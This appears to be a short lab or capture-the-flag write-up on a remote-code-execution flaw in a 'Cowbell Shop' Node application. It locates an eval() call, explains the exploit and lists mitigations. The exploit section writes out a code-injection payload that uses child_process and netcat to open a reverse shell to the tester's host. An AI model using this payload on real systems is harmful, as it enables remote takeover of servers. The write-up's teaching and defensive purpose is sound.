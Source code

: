 # Cowbell Shop 5 - RCE
## Security questions

1. Explain the underlying security problem

By searching in all files with ```find ./ -type f -exec grep -Hn "eval(" {} \;```
I found the line that executed the exploit. In file service/order.js:180 eval(...)

The command eval(...) make is possible to execute arbitrary code passed as string.

2. Explain the exploit

By sending ```require('child_process').exec('nc [ethX] 1337 -e sh -c "sh -i"')``` the code was passed to ```eval(require('child_process').exec('nc [ethX] 1337 -e sh -c "sh -i"'))``` and executed the command. Netcat open a reverse shell.


1. Explain mitigation


- Don't run as root
- Don't use eval
- Server harding
- Use firewall
- Isolate container in network --> use docker network
- Monitor usage
- If container are used, rotate the deployment by recreation of the containers
- rotate keys